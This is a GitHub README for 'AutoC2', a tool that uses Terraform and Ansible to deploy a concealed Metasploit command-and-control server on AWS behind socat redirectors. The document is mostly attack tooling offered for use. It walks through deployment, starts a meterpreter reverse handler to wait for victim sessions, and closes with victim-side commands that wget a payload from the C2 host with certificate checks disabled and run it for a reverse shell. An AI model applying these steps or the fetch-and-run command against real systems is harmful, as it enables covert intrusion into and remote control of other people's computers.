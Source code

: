 
# AutoC2

A quick isolated C2 Deployer.

## Overview

AutoC2 makes use of terraform + ansible to deploy and hide a command and control server with isolated docker network within less than 5 mins in a single click!

Brief outline of what the script does :

1. deploys a ec2 micro instance on desired region given by user.

2. setup the C2 server which is not exposed to the internet with the help of isolated docker network which consists of multiple socat redirectors and a metasploit container instance.

3. uses meterpreter_reverse_http as payload and similar payloads such as 
meterpreter_reverse_https and meterpreter_reverse_tcp works as well. (requires modification to docker_delivery.rc file)

This automated script is bulit over technique demonstrated by the author of following blog. All credits for technique/ detailed explanation of how this is built can be found here:

https://khast3x.club/posts/2020-02-09-C2-Protection-Socat-Docker/




## Prerequisites

* terraform must be installed

* ansible(python 3)must be installed.
```bash
pip3 install ansible
```

* your IAM account credentials (Aws access key and secret key) with admin privileges.

* AWS Region to be deployed and image(tested on ubuntu and works on debain) AMI code.

* set environment variable to ignore ssh key trust warnings
```bash
export ANSIBLE_HOST_KEY_CHECKING=False
```

## Getting Started

* Only files we touch for changing configuration is **vars.tf** and **terraform.tfvars**.  

* first generate SSH keys for setting up public key authentication on any launched instances.  
```bash
ssh-keygen -f keyy
```
* inside **vars.tf** , update the path to keys in PRIVATE_KEY , PUBLIC_KEY and other values such as region_aws and AMI value (can be found at cloud-images.ubuntu.com). 

* inside **terraform.tfvars** , update IAM user access key and secret key. 

* run the following command inside this repo project root to initiatize resources. 

```bash
terraform init
```

* Now run the following command to bring up the c2 server . this inturn calls up the ansible playbook to set up the software provisioning and isolated docker network.
```bash
terraform apply
```

* That's it! Infra is set up. Now ssh to the C2 instance using same priv key which was generated before and execute **docker_delivery.rc** metasploit script to start listening for connections.
```bash
SSH -i kkey ubuntu@c2-ip
```

* Verify containers are running.
```bash
sudo docker container ls
```

* Execute metasploit auto handler script inside msf container.
and wait for victim sessions.

```bash
sudo docker container exec -it msf /bin/bash

./msfconsole -r docker_delivery.rc

```
* By default it generates payload for linux x64 systems.can be modified for different target by modifying **docker_delivery.rc** file

*  By default docker_delivery.rc uses certificate picked up automatically by metasploit.

*On a **victim box**, execute the following to get reverse meterpreter shell.

```bash
wget --no-check-certificate https://c2IP/delivery
chmod +x delivery
./delivery&
```
